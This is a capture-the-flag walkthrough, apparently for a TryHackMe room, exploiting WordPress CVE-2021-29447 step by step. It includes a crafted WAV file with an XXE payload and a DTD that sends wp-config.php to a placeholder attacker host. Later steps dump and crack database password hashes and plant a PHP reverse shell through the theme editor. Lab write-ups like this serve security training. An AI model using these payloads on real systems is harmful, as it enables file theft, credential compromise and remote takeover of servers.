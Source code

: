 Room: [Wordpress: CVE-2021-29447](https://tryhackme.com/room/wordpresscve202129447)

Difficulty: Medium

Overview: This is a semi-guided challenge room. We will exploit a Wordpress server through a WAV file that will allow us to read the contents of a sensitive file. Gaining access to mysql database to finaly get our foot in machine by using Wordpress themes editor.

------------------------------------------------------------------------------------------------------------------------------------------------------------------

As usual we will start our enumeration by running “nmap” to search for all open ports on the target system:

```
nmap -sV -sC -p- wordpress.thm -oN nmap.txt

-sV → Probe open ports to determine service
-sC → Scan using the default set of scripts
-p- → Scan all ports
-oN → Save the ouput of the scan in a file
```

![image](https://user-images.githubusercontent.com/76821053/131554897-778e3a32-8854-4197-a272-734d49759a2d.png)

Since this room is a semi guided challenge we will exploit the http web server on port 80 that was built with Wordpress. 

![image](https://user-images.githubusercontent.com/76821053/131554922-bee65342-5aee-476f-90a1-b7405fbf7a87.png)

To bypass the login portal and access the user dashboard we are going to use the credentials that were given in the previous task: 

![image](https://user-images.githubusercontent.com/76821053/131554952-53b74961-1ec5-4d08-ad45-f8ae03e717e3.png)

How to find the login portal path? We can use google to search for it, or we can also use “gobuster” to search for any hidden files or directories, which is always a good practice:

```
gobuster dir --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt --url http://wordpress.thm -x .txt,.log,.php,.html
```

![image](https://user-images.githubusercontent.com/76821053/131554975-40176714-c2af-4488-953a-698136312558.png)

The login portal's path is at "/wp-login.php":

![image](https://user-images.githubusercontent.com/76821053/131555006-cd5cb3fd-89e8-40bc-9582-f78d816f5a7b.png)

Insert the credentials and we are greated by the user dashboard:

![image](https://user-images.githubusercontent.com/76821053/131555046-d78ec0b5-233b-4529-b2d4-06edce25fee8.png)

We can see that the version of this Wordpress web server is 5.6.2 and it has a CVE-2021-29447. This CVE tells us that a user with the ability to upload files can exploit an XML parsing issue in the Media Library leading to XXE attacks. This requires WordPress installation to be using PHP 8. 

Access to internal files is possible in a successful XXE attack. So let's follow the step by step POC (proof of concept) in task 1 of this room:

1. Create a malicious wave file:

```
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://YOURSEVERIP:PORT/NAMEEVIL.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav
```

![image](https://user-images.githubusercontent.com/76821053/131555072-339bd7ed-1bbe-4e7e-88b5-0006909b0347.png)

In my payload i changed the ip address and port to match my attacker machine. You can check your ip address with the command "ifconfig".

I also changed the name of “NAMEEVIL.dtd” to “payload.dtd”. It is important that this file has an extention of ".dtd".

2. Create a dtd file with the same name has the "NAMEEVIL.dtd" or with the one that you have chosen before. And, we will have to make some slightly changes:

In this payload we need to change the path of the file that we want to read. In the POC the payload reads "/etc/passwd", so we have to change this to read “wp-config.php”.

Every linux server by default is at “/var/www/html" so the config file must be in this path.

```
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/var/www/html/wp-config.php">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://YOURSERVERIP:PORT/?p=%file;'>" >
```

In the second part of the payload only change the ip address and port to match your own.

![image](https://user-images.githubusercontent.com/76821053/131555138-dceb62ee-81c9-491c-abd3-654aadd8f5d6.png)

Now that we have created our payloads we have two files in our directory:

![image](https://user-images.githubusercontent.com/76821053/131555162-f4d21a81-2795-4426-b72b-77868a276ecd.png)

3. Before we upload the .wav file to the Wordpress server we have to host an http server in the same directory as the dtd file:

```
php -S 0.0.0.0:8000
```

This php http server have to be listening on the port that we chose for the payloads.

![image](https://user-images.githubusercontent.com/76821053/131555197-c06d68c4-7ab0-4c24-8657-d59930bcf6fa.png)

4. Time to upload the .wav file:

Go to Media tab and just select the .wav payload.

![image](https://user-images.githubusercontent.com/76821053/131555255-60875794-3784-4657-b5bb-1044eb7e55d7.png)

This will execute code on the webserver, it will fetch the dtd file and we will see information stored in the requests off our php HTTP server logs:

![image](https://user-images.githubusercontent.com/76821053/131555293-e96c8d12-ad16-48f0-bf34-7f79a7bbdcea.png)

5. To read the contents of the request we can use this php one liner:

```
<?php echo zlib_decode(base64_decode('base64here')); ?>
```

Create a .php file with the one liner and copy the encoded data from the your php request log and paste it to “base64here”.

![image](https://user-images.githubusercontent.com/76821053/131555314-0af8c5a2-c6de-42f8-9af7-cfafae609d0d.png)

To read it we just do:

```
php filename.php
```

![image](https://user-images.githubusercontent.com/76821053/131555341-c4137e10-81d6-4738-a49a-afa789882614.png)

Success we managed to read the contents of wp-config.php. Inside are database credentials that we'll be taking advantage next.

Looking at the nmap scan we can see that mysql is running on this system. Let's connect to it with the credentials that we have found above:

```
myslq -h wordpress.thm -u USERNAME -p

-h → To specify the URL
-u → Put the username from the database
-p → For connecting with a password
```

![image](https://user-images.githubusercontent.com/76821053/131555375-7c574c84-7b4f-4a57-8a6c-cb112d2a718e.png)

To navigate mysql service, we can start by listing all databases available:

```
show databases;
```

![image](https://user-images.githubusercontent.com/76821053/131555403-b242c4e7-2b07-47bd-a2b3-ece2495ec92c.png)

Now we have to select the correct dabatase and list all the tables inside:

```
use wordpressdb2

show tables;
```

![image](https://user-images.githubusercontent.com/76821053/131555434-78dd0584-11bf-48af-9e11-9612154b63c6.png)

The table that calls out for attention is wptry_users. To dump its contents we can use this command:

```
SELECT * FROM wptry_users;
```

![image](https://user-images.githubusercontent.com/76821053/131555456-4443a6d8-61d2-4700-8959-a919e1561e5f.png)

We have found our user id 1 and his password hash. 

This hash is encryted in MD5. There is a tool called "hash-identifier" that can parse hashes and identify its encryption:

![image](https://user-images.githubusercontent.com/76821053/131555494-9006149d-9f6d-4bb5-845b-391cf46650a1.png)

Now that we know have a hash and now its encryption type it is time to use “John the Ripper”.

But first we need to put this hash into a .txt file and send it to "john":

```
echo 'MYSQL_HASH' > hash.txt

john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

![image](https://user-images.githubusercontent.com/76821053/131555533-65f6b2cc-6406-49cf-b2b3-1f020842afaa.png)

Now we have new credentials and they also belong to the Wordpress server.

How can we compromise the machine and get a reverse shell?

We can leverage the fact that we have access to the “admin” dashboard in the wordpress server. And, by editing the appearance of the web page we will get a reverse shell.

To be more specific let's review the steps:

• Create a php reverse shell with "msfvenom" or use the awesome php reverse shell from [Pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell). 

• In the Wordpress server go to "Apperance/Theme Editor" tab and select "Twenty Twenty" .

• Choose a php theme file. I used “404 Template” and overwrite its contents with the php reverse shell payload:

![image](https://user-images.githubusercontent.com/76821053/131555575-2844f4e2-695d-4938-95fe-f6cd96350e49.png)

• If you are using the payload from Pentestmonkey you have to change the ip address and port that i marked with arrows.

• Start a netcat listener on the same port as the payload.

• To trigger the payload we have to access “Themes” tab select “Twenty Twenty” and press “Live Priview”:

![image](https://user-images.githubusercontent.com/76821053/131555602-37116fd4-c554-4890-b221-b0f3d3e85d8d.png)

• Finaly just press any of the contents of the live preview and in your shell you will recieve a connection from the server:

![image](https://user-images.githubusercontent.com/76821053/131555632-d72a7652-c99b-404e-93e3-8dfd4e002a58.png)

Success we have access to the target machine. 

The final flag is at “stux" home directory:

![image](https://user-images.githubusercontent.com/76821053/131555648-438bfaad-cf7a-414c-ada8-fe87f212fb02.png)








































